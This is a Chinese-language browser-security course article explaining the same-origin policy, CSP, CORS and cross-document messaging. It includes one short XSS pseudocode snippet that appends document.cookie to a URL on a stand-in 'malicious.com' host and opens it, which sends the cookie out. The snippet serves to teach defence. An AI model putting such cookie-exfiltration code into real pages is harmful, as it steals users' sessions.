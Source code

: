 ```yaml
---
title: 同源策略：为什么XMLHttpRequest不能跨域请求资源？
date: 2022-03-09 19:33:25
permalink: /pages/ba0d36/
categories:
  - 极客时间
  - 浏览器工作原理与实践
tags:
  - 
---
```

<audio title="32.同源策略：为什么XMLHttpRequest不能跨域请求资源？" src="https://static001.geekbang.org/resource/audio/ad/5a/ad6bcea8db1937b21a5182c6a53f415a.mp3" controls="controls"></audio> 
<p>通过前面6个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的5篇文章，我们就来系统地介绍下浏览器安全相关的内容。</p><p>浏览器安全可以分为三大块——<strong>Web页面安全、浏览器网络安全</strong>和<strong>浏览器系统安全</strong>，所以本模块我们就按照这个思路来做介绍。鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。</p><p>今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web世界会是什么样子的呢？</p><p>Web世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频/视频等资源，甚至可以下载其他站点的可执行文件。</p><p>Web世界是开放的，这很符合Web理念。但如果Web世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。</p><p>比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：</p><ul>
<li>修改银行站点的DOM、CSSOM等信息；</li>
<li>在银行站点内部插入JavaScript脚本；</li>
<li>劫持用户登录的用户名和密码；</li>
<li>读取银行站点的Cookie、IndexDB等数据；</li>
<li>甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。</li>
</ul><!-- [[[read_end]]] --><p>所以说，<strong>在没有安全保障的Web世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全</strong>。</p><p>这就引出了页面中最基础、最核心的安全策略：<strong>同源策略（Same-origin policy）</strong>。</p><h2>什么是同源策略</h2><p>要了解什么是同源策略，我们得先来看看什么是同源。</p><p><strong>如果两个URL的协议、域名和端口都相同，我们就称这两个URL同源</strong>。比如下面这两个URL，它们具有相同的协议HTTPS、相同的域名time.geekbang.org，以及相同的端口443，所以我们就说这两个URL是同源的。</p><pre><code>https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
</code></pre><p>浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。</p><p>具体来讲，同源策略主要表现在DOM、Web数据和网络这三个层面。</p><p><strong>第一个，DOM层面</strong>。同源策略限制了来自不同源的JavaScript脚本对当前DOM对象读和写的操作。</p><p>这里我们还是拿极客时间的官网做例子，打开极客时间的官网，然后再从官网中打开另外一个专栏页面，如下图所示：</p><p><img src="https://static001.geekbang.org/resource/image/c9/d7/c9294ee10c571c8b7061a5c8f03b6cd7.png" alt=""></p><center><span class="reference">通过极客时间官网打开一个专栏页面</span></center><p>由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的DOM，比如将第一个页面全部隐藏掉，代码如下所示：</p><pre><code>{
let pdom = opener.document
pdom.body.style.display = &quot;none&quot;
}
</code></pre><p>该代码中，对象opener就是指向第一个页面的window对象，我们可以通过操作opener来控制第一个页面中的DOM。</p><p>我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的DOM，将页面隐藏了，如下图：</p><p><img src="https://static001.geekbang.org/resource/image/2a/25/2a988d3d2f82aa4230f2b5025134b125.png" alt=""></p><center><span class="reference">通过第二个页面操纵第一个页面的DOM</span></center><p>不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作DOM了。比如从极客时间官网打开InfoQ的页面（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作，最终操作结果如下图所示：</p><p><img src="https://static001.geekbang.org/resource/image/71/b5/711d96a58f670bda0d9b9608165839b5.png" alt=""></p><center><span class="reference">不同源的两个页面不能相互操纵DOM</span></center><p>从图中可以看出，当我们在InfoQ的页面中访问极客时间页面中的DOM时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。</p><pre><code>Blocked a frame with origin &quot;https://www.infoq.cn&quot; from accessing a cross-origin frame.
</code></pre><p><strong>第二个，数据层面</strong>。同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。由于同源策略，我们依然无法通过第二个页面的opener来访问第一个页面中的Cookie、IndexDB或者LocalStorage等内容。你可以自己试一下，这里我们就不做演示了。</p><p><strong>第三个，网络层面</strong>。同源策略限制了通过XMLHttpRequest等方式将站点的数据发送给不同源的站点。你还记得在<a href="https://time.geekbang.org/column/article/135127">《17 | WebAPI：XMLHttpRequest是怎么实现的？》</a>这篇文章的末尾分析的XMLHttpRequest在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。</p><h2>安全和便利性的权衡</h2><p>我们了解了同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。</p><p>不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得Web项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。</p><h3>1. 页面中可以嵌入第三方资源</h3><p>我们在文章开头提到过，Web世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上，这无疑违背了Web的初衷，也带来了诸多限制。比如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。</p><p>所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往HTML文件中插入恶意脚本。</p><p>比如，恶意程序在HTML文件内容中插入如下一段JavaScript代码：</p><p><img src="https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png" alt=""></p><p>当这段HTML文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。</p><p>除此之外，它还能将页面的的敏感数据，如Cookie、IndexDB、LoacalStorage等数据通过XSS的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：</p><pre><code>function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
</code></pre><p>在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。</p><p>以上就是一个非常典型的XSS攻击。为了解决XSS攻击，浏览器中引入了内容安全策略，称为CSP。<strong>CSP的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码</strong>。通过这些手段就可以大大减少XSS攻击。</p><h3>2. 跨域资源共享和跨文档消息机制</h3><p>默认情况下，如果打开极客邦的官网页面，在官网页面中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻止其向InfoQ发出请求，这样会大大制约我们的生产力。</p><p>为了解决这个问题，我们引入了<strong>跨域资源共享（CORS）</strong>，使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。</p><p>在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵DOM。不过在实际应用中，经常需要两个不同源的DOM之间进行通信，于是浏览器中又引入了<strong>跨文档消息机制</strong>，可以通过window.postMessage的JavaScript接口来和不同源的DOM进行通信。</p><h2>总结</h2><p>好了，今天就介绍到这里，下面我来总结下本文的主要内容。</p><p>同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。</p><p>不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：</p><ol>
<li>页面中可以引用第三方资源，不过这也暴露了很多诸如XSS的安全问题，因此又在这种开放的基础之上引入了CSP来限制其自由程度。</li>
<li>使用XMLHttpRequest和Fetch都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。</li>
<li>两个不同源的DOM是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。</li>
</ol><h2>思考时间</h2><p>今天留给你的作业：你来总结一下同源策略、CSP和CORS之间的关系，这对于你理解浏览器的安全策略至关重要。</p><p>欢迎在留言区与我分享你的想法，也欢迎你在留言区记录你的思考过程。感谢阅读，如果你觉得这篇文章对你有帮助的话，也欢迎把它分享给更多的朋友。</p><p></p>